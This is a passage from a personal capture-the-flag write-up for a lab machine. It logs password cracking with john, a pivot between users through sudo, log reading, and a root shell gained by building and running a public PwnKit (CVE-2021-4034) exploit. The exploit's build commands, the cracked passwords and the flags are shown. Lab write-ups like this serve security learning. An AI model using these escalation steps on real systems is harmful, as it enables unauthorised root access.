operating systems.</p>
      </div>
      <div class="row">
        <div class="thirds">
          <h2>CUPS for Users</h2>
          <p><a href="help/overview.html">Overview of CUPS</a></p>
          <p><a href="help/options.html">Command-Line Printing and Options</a></p>
          <p><a href="http://www.cups.org/lists.php?LIST=cups">User Forum</a></p>
        </div>
        <div class="thirds">
          <h2>CUPS for Administrators</h2>
          <p><a href="admin">Adding Printers and Classes</a></p>
          <p><a href="help/policies.html">Managing Operation Policies</a></p>
          <p><a href="help/network.html">Using Network Printers</a></p>
          <p><a href="help/man-cupsd.conf.html">cupsd.conf Reference</a></p>
        </div>
        <div class="thirds">
          <h2>CUPS for Developers</h2>
          <p><a href="help/api-overview.html">Introduction to CUPS Programming</a></p>
          <p><a href="help/api-cups.html">CUPS API</a></p>
          <p><a href="help/api-filter.html">Filter and Backend Programming</a></p>
          <p><a href="help/api-httpipp.html">HTTP and IPP APIs</a></p>
          <p><a href="http://www.cups.org/lists.php?LIST=cups-devel">Developer Forum</a></p>
        </div>
      </div>
    </div>
    <div class="footer">CUPS and the CUPS logo are trademarks of <a href="http://www.apple.com">Apple Inc.</a> Copyright &copy; 2007-2019 Apple Inc. All rights reserved.</div>
  </body>
</html>
```

ok, so it is the http interface

and version 2.2.12

searchsploit doesn't show any compbatible versions

```
www-data@blunder:/var/www/bludit-3.9.2$ ./proxy tcp -p :8080 -T tcp -P 10.10.10.191:631
<.2$ ./proxy tcp -p :8080 -T tcp -P 10.10.10.191:631
2022/07/23 20:46:56.833453 INFO use tcp parent [10.10.10.191:631]
2022/07/23 20:46:56.833665 INFO tcp proxy on [::]:8080
```

but connections to :8080 from the outside are not being accepted.

going back to john, which using rockyou is failing miserably. tried [cewl-creds.txt](cewl-creds.txt) again, also nothing. but made the connection of using contextual wordlists, and cleaned up `/ftp/config.json` into [config-wordlist.txt](config-wordlist.txt), and was stoked to see:
```
$ john --wordlist config-wordlist.txt hugo.hash --rules=All
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "raw-SHA1-opencl"
Use the "--format=raw-SHA1-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=16
Proceeding with wordlist:/home/conor/git/JohnTheRipper/run/password.lst, rules:All
Press 'q' or Ctrl-C to abort, almost any other key for status
Password120      (hugo)
1g 0:00:00:01 DONE (2022-07-23 14:14) 0.6944g/s 1132Kp/s 1132Kc/s 1132KC/s Go89..Abc12320
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.

real    0m1.590s
user    0m1.462s
sys     0m0.100s
```

woo! a password.. wait `Password120` isn't contextual - `Proceeding with wordlist:/home/conor/git/JohnTheRipper/run/password.lst, rules:All`

missing space caused the wordlist to not be used, fell back to default.. and got the answer.

```
www-data@blunder:/ftp$ su hugo
su hugo
Password: Password120

hugo@blunder:/ftp$
```

### hugo

ok, `hugo` can login, let's grab a real shell

```
hugo@blunder:~$ cat user.txt
cat user.txt
1d8b3c45679e13503602bf0cfa16f4c2
```

flag, then shell

... no ssh exposed, right.


linpeas? quick check by hand..

```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ id -a
id -a
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
hugo@blunder:~$ sudo -u shaun /bin/bash
sudo -u shaun /bin/bash
shaun@blunder:/home/hugo$ id -a 
id -a
uid=1000(shaun) gid=1000(shaun) groups=1000(shaun),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare)
```

ok, shaun has more power.. and notably `lpadmin`.. oh and `lxd`.


```
shaun@blunder:~$ ls /var/log/cups -l
ls /var/log/cups -l
total 44
-rw-r----- 1 root adm 2274 Jul 23 20:46 access_log
-rw-r----- 1 root adm 9493 Sep  8  2021 access_log.1
-rw-r----- 1 root adm  239 Jul  6  2021 access_log.2.gz
-rw-r----- 1 root adm  406 Jul  5  2021 access_log.3.gz
-rw-r----- 1 root adm  479 Jul  5  2021 access_log.4.gz
-rw-r----- 1 root adm  265 May 27  2020 access_log.5.gz
-rw-r----- 1 root adm  489 May 26  2020 access_log.6.gz
-rw-r----- 1 root adm  324 May 19  2020 access_log.7.gz
-rw-r----- 1 root adm    0 May 16  2020 error_log
-rw-r----- 1 root adm   91 May 14  2020 error_log.1
shaun@blunder:~$ cat /var/log/cups/error_log.1
cat /var/log/cups/error_log.1
W [14/May/2020:09:43:04 +0100] Notifier for subscription 44 (dbus://) went away, retrying!
shaun@blunder:~$ cat /var/log/cups/access_log
cat /var/log/cups/access_log
localhost - - [23/Jul/2022:02:18:03 +0100] "POST / HTTP/1.1" 200 349 Create-Printer-Subscriptions successful-ok
localhost - - [23/Jul/2022:02:18:03 +0100] "POST / HTTP/1.1" 200 176 Create-Printer-Subscriptions successful-ok
localhost - - [23/Jul/2022:02:18:16 +0100] "POST / HTTP/1.1" 200 361 Create-Printer-Subscriptions successful-ok
localhost - - [23/Jul/2022:03:16:36 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:04:14:56 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:05:13:16 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:06:11:36 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:07:09:56 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:08:08:16 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:09:06:36 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:10:04:56 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:11:03:16 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:12:01:36 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:12:59:56 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:13:58:16 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:14:56:36 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:15:54:56 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:16:53:17 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:17:51:37 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:18:49:57 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:19:48:17 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
localhost - - [23/Jul/2022:20:46:37 +0100] "POST / HTTP/1.1" 200 184 Renew-Subscription successful-ok
shaun@blunder:~$ date
date
Sat 23 Jul 21:28:34 BST 2022
```

```
-rw-------  1 root              root               4938 Jul 23 02:18 vmware-vmsvc-root.log
-rw-------  1 root              root               4698 Jul 23 02:17 vmware-vmtoolsd-root.log
-rw-r-----  1 root              adm                   0 Jul  5  2021 vsftpd.log
-rw-r-----  1 root              adm                 564 Apr 28  2020 vsftpd.log.2
-rw-------  1 root              root              23159 Nov 28  2019 vsftpd.log.3
-rw-rw-r--  1 root              utmp              52992 Jul 23 02:18 wtmp
shaun@blunder:~$ cat /var/log/vsftpd.log.2
cat /var/log/vsftpd.log.2
Mon Apr 27 14:29:59 2020 [pid 30769] CONNECT: Client "::ffff:127.0.0.1"
Mon Apr 27 14:29:59 2020 [pid 30768] [ftp] OK LOGIN: Client "::ffff:127.0.0.1", anon password "mozilla@example.com"
Mon Apr 27 14:36:59 2020 [pid 32012] CONNECT: Client "::ffff:127.0.0.1"
Mon Apr 27 14:36:59 2020 [pid 32011] [ftp] OK LOGIN: Client "::ffff:127.0.0.1", anon password "mozilla@example.com"
Tue Apr 28 11:18:30 2020 [pid 12321] CONNECT: Client "::ffff:127.0.0.1"
Tue Apr 28 11:18:30 2020 [pid 12320] [ftp] OK LOGIN: Client "::ffff:127.0.0.1", anon password "mozilla@example.com"
shaun@blunder:~$ cat /var/log/vsftpd.log.3
cat /var/log/vsftpd.log.3
cat: /var/log/vsftpd.log.3: Permission denied
```

intersting? or red herring?


### CVE-2021-4034

```
shaun@blunder:~/CVE-2021-4034-main$ make all
make all
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
shaun@blunder:~/CVE-2021-4034-main$ ls -la
ls -la
total 80
drwxr-xr-x  4 shaun shaun  4096 Jul 23 21:41  .
drwxr-xr-x 17 shaun shaun  4096 Jul 23 21:40  ..
-rwxr-xr-x  1 shaun shaun 16760 Jul 23 21:41  cve-2021-4034
-rw-r--r--  1 shaun shaun   292 Jan 30 14:21  cve-2021-4034.c
drwxr-xr-x  2 shaun shaun  4096 Jan 30 14:21  dry-run
-rw-r--r--  1 shaun shaun    33 Jul 23 21:41  gconv-modules
drwxr-xr-x  2 shaun shaun  4096 Jul 23 21:41 'GCONV_PATH=.'
-rw-r--r--  1 shaun shaun   114 Jan 30 14:21  .gitignore
-rw-r--r--  1 shaun shaun  1071 Jan 30 14:21  LICENSE
-rw-r--r--  1 shaun shaun   469 Jan 30 14:21  Makefile
-rw-r--r--  1 shaun shaun   339 Jan 30 14:21  pwnkit.c
-rwxr-xr-x  1 shaun shaun 16384 Jul 23 21:41  pwnkit.so
-rw-r--r--  1 shaun shaun  3419 Jan 30 14:21  README.md
shaun@blunder:~/CVE-2021-4034-main$ ./cve-2021-4034
./cve-2021-4034
# id -a
id -a
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),119(lpadmin),130(lxd),131(sambashare),1000(shaun)
# pwd
pwd
/home/shaun/CVE-2021-4034-main
# cd /root
cd /root
# ls -la
ls -la
total 64
drwx------  7 root root  4096 Sep  8  2021 .
drwxr-xr-x 21 root root  4096 Jul  6  2021 ..
lrwxrwxrwx  1 root root     9 Apr 28  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Aug 27  2019 .bashrc
drwx------  6 root root  4096 Nov 27  2019 .cache
drwx------  8 root root  4096 Nov 27  2019 .config
drwx------  3 root root  4096 Nov 27  2019 .dbus
drwxr-xr-x  3 root root  4096 Nov 27  2019 .local
-rw-r--r--  1 root root   148 Aug 27  2019 .profile
-rw-r--r--  1 root root    75 Sep  8  2021 .selected_editor
-rw-------  1 root root 12308 Sep  8  2021 .viminfo
-rw-r--r--  1 root root     0 Sep  8  2021 log
-rwxr-xr-x  1 root root   191 Sep  8  2021 reset.sh
-r--------  1 root root    33 Jul 23 02:18 root.txt
drwxr-xr-x  5 root root  4096 Jul  5  2021 snap
# cat root.txt
cat root.txt
5402ad812a6c8b34ad7e89fe7ebbc64c
```

since this machine was released in 2021/05, it's likely this was not the intended way to root.


## flag
```
user:1d8b3c45679e13503602bf0cfa16f4c2
root:
```
